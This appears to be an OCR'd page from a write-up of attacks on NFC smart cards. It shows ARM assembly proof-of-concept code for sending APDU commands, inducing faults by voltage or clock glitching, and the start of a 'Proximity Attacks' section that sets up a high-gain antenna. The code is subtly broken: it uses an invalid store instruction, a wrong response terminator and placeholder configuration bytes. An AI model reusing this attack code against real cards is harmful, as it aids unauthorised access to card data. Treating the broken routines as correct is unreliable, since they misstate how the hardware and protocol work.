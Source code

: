 ```assembly
send_apdu:
    ; Send APDU command to smart card via NFC reader hardware
    ldr r4, =NFC_TX_REG            ; Load the address of the NFC transmission register
    ldr r5, =NFC_RX_REG            ; Load the address of the NFC reception register

    ; Send APDU command
    mov r6, r0                     ; r6 = select_ndef_applet (APDU command)
    mov r7, r2                     ; r7 = apdu_length (length of APDU command)

send_loop:
    ldrb r8, [r6], #1              ; Load a byte from the APDU command and increment the pointer
    strb r8, [r4]                  ; Write the byte to the NFC transmission register
    subs r7, r7, #1                ; Decrement the byte counter
    bne send_loop                  ; Repeat until all bytes are sent

    ; Wait for response from the smart card
    mov r6, r1                     ; r6 = response_buffer
    mov r7, #256                   ; r7 = maximum response length

receive_loop:
    ldrb r8, [r5]                  ; Read a byte from the NFC reception register
    strb r8, [r6], #1              ; Store the byte in the response buffer and increment the pointer
    subs r7, r7, #1                ; Decrement the byte counter
    cmp r8, #0x00                  ; Check for the end of the response (e.g., 0x00 terminator)
    bne receive_loop               ; Repeat until the end of the response

    mov pc, lr                     ; Return from function

induce_fault:
    ; Induce a fault (e.g., voltage spike or clock glitch)
    ; For simplicity, this example will assume a placeholder function for fault induction
    mov r0, #0x1                   ; Example value representing a fault
    str r0, [0x20000000]           ; Write fault value to a control register
    mov pc, lr                     ; Return from function
```

## 8. Proximity Attacks

### Overview
This attack demonstrates how an attacker can exploit the physical proximity required for NFC communication to perform unauthorized interactions with the smart card.

### PoC Code

```assembly
.section .data
    select_ndef_applet: .byte 0x00, 0xA4, 0x04, 0x00, 0x07, 0xD2, 0x76, 0x00, 0x00, 0x85, 0x01, 0x01, 0x00
    response_buffer: .space 256
    apdu_length: .word 13
    high_gain_antenna_config: .byte 0x01, 0x02, 0x03, 0x04  ; Example high-gain antenna configuration data

.section .text
.global _start

_start:
    bl initialize
    ldr r0, =high_gain_antenna_config ; Load address of high-gain antenna configuration
    bl configure_antenna             ; Call function to configure high-gain antenna

```